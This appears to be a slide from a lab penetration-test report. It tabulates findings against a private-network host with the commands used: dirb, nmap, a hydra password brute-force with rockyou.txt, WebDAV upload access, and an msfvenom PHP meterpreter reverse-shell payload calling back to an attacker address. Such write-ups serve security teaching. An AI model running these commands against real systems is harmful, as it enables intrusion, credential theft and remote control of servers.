

# Vulnerability Assessment
The assessment uncovered the following critical vulnerabilities in the target:
| Vulnerability | Description | Impact |
| --- | --- | --- |
| Apache HTTP Server CVE-2021-41773 Exploited in the Wild (port 80 open for scans) | dirb http://192.168.1.105 (192.168.1.105/company \_folders/secret\_folder) | The team was able to find two hidden directories. From there login files with exact instructions to the VSI server were found in plaintext |
| Numerous open ports (lack of principle of least privileges) | nmap -sT -sV 192.168.1.0/24 | Discovery of vulnerable ports that could be exploited, as well as a hidden server |
| Brute force attack (password cracking) | hydra -l ashton -P rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /usr/share/dirb/wordlists/common.txt | Gained direct access to an employees login credentials and in addition we gained the CEO’s password hash giving us access to their account as well |
| Direct open access to company server directories | dav://192.168.1.105/webdav | Permission to write and upload files, including malicious payloads to the company’s server. |
| Apache HTTP Server CVE-2021-41773 Exploited in the Wild (port 80 open for scans) (Meterpreter Reverse TCP Host Connection) | Msfvenom -p php/meterpreter/reverse\_tcp lhost=192.168.1.90 lport=80 >> shell.php | The vulnerability can be used for remote code execution when mod\_cgi is enabled. With mod\_cgi enabled, an attacker can execute arbitrary programs via HTTP POST requests. |